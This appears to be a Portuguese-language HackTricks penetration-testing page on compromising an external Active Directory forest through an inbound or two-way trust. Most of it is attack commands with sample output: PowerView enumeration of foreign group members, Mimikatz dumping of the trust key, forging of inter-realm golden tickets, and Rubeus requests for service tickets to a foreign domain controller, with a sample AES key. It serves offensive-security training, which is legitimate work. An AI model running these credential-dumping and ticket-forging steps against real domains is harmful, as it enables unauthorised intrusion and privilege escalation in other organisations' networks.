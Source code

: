 # Domínio de Floresta Externa - OneWay (Inbound) ou bidirecional

{{#include ../../banners/hacktricks-training.md}}

Neste cenário, um domínio externo está confiando em você (ou ambos estão se confiando mutuamente), então você pode obter algum tipo de acesso sobre ele.

## Enumeração

Primeiro de tudo, você precisa **enumerar** a **confiança**:
```bash
Get-DomainTrust
SourceName      : a.domain.local   --> Current domain
TargetName      : domain.external  --> Destination domain
TrustType       : WINDOWS-ACTIVE_DIRECTORY
TrustAttributes :
TrustDirection  : Inbound          --> Inboud trust
WhenCreated     : 2/19/2021 10:50:56 PM
WhenChanged     : 2/19/2021 10:50:56 PM

# Get name of DC of the other domain
Get-DomainComputer -Domain domain.external -Properties DNSHostName
dnshostname
-----------
dc.domain.external

# Groups that contain users outside of its domain and return its members
Get-DomainForeignGroupMember -Domain domain.external
GroupDomain             : domain.external
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=domain,DC=external
MemberDomain            : domain.external
MemberName              : S-1-5-21-3263068140-2042698922-2891547269-1133
MemberDistinguishedName : CN=S-1-5-21-3263068140-2042698922-2891547269-1133,CN=ForeignSecurityPrincipals,DC=domain,
DC=external

# Get name of the principal in the current domain member of the cross-domain group
ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1133
DEV\External Admins

# Get members of the cros-domain group
Get-DomainGroupMember -Identity "External Admins" | select MemberName
MemberName
----------
crossuser

# Lets list groups members
## Check how the "External Admins" is part of the Administrators group in that DC
Get-NetLocalGroupMember -ComputerName dc.domain.external
ComputerName : dc.domain.external
GroupName    : Administrators
MemberName   : SUB\External Admins
SID          : S-1-5-21-3263068140-2042698922-2891547269-1133
IsGroup      : True
IsDomain     : True

# You may also enumerate where foreign groups and/or users have been assigned
# local admin access via Restricted Group by enumerating the GPOs in the foreign domain.
```
Na enumeração anterior, foi encontrado que o usuário **`crossuser`** está dentro do grupo **`External Admins`** que tem **acesso de Admin** dentro do **DC do domínio externo**.

## Acesso Inicial

Se você **não conseguiu** encontrar nenhum acesso **especial** do seu usuário no outro domínio, você ainda pode voltar à Metodologia AD e tentar **privesc de um usuário não privilegiado** (coisas como kerberoasting, por exemplo):

Você pode usar as **funções do Powerview** para **enumerar** o **outro domínio** usando o parâmetro `-Domain`, como em:
```bash
Get-DomainUser -SPN -Domain domain_name.local | select SamAccountName
```
{{#ref}}
./
{{#endref}}

## Impersonação

### Login

Usando um método regular com as credenciais dos usuários que têm acesso ao domínio externo, você deve ser capaz de acessar:
```bash
Enter-PSSession -ComputerName dc.external_domain.local -Credential domain\administrator
```
### Abuso de SID History

Você também pode abusar do [**SID History**](sid-history-injection.md) através de uma confiança de floresta.

Se um usuário for migrado **de uma floresta para outra** e **o SID Filtering não estiver habilitado**, torna-se possível **adicionar um SID da outra floresta**, e esse **SID** será **adicionado** ao **token do usuário** ao autenticar **através da confiança**.

> [!WARNING]
> Como lembrete, você pode obter a chave de assinatura com
>
> ```bash
> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.domain.local
> ```

Você poderia **assinar com** a chave **confiável** um **TGT impersonando** o usuário do domínio atual.
```bash
# Get a TGT for the cross-domain privileged user to the other domain
Invoke-Mimikatz -Command '"kerberos::golden /user:<username> /domain:<current domain> /SID:<current domain SID> /rc4:<trusted key> /target:<external.domain> /ticket:C:\path\save\ticket.kirbi"'

# Use this inter-realm TGT to request a TGS in the target domain to access the CIFS service of the DC
## We are asking to access CIFS of the external DC because in the enumeration we show the group was part of the local administrators group
Rubeus.exe asktgs /service:cifs/dc.doamin.external /domain:dc.domain.external /dc:dc.domain.external /ticket:C:\path\save\ticket.kirbi /nowrap

# Now you have a TGS to access the CIFS service of the domain controller
```
### Forma completa de se passar pelo usuário
```bash
# Get a TGT of the user with cross-domain permissions
Rubeus.exe asktgt /user:crossuser /domain:sub.domain.local /aes256:70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80 /opsec /nowrap

# Get a TGT from the current domain for the target domain for the user
Rubeus.exe asktgs /service:krbtgt/domain.external /domain:sub.domain.local /dc:dc.sub.domain.local /ticket:doIFdD[...snip...]MuSU8= /nowrap

# Use this inter-realm TGT to request a TGS in the target domain to access the CIFS service of the DC
## We are asking to access CIFS of the external DC because in the enumeration we show the group was part of the local administrators group
Rubeus.exe asktgs /service:cifs/dc.doamin.external /domain:dc.domain.external /dc:dc.domain.external /ticket:doIFMT[...snip...]5BTA== /nowrap

# Now you have a TGS to access the CIFS service of the domain controller
```
{{#include ../../banners/hacktricks-training.md}}
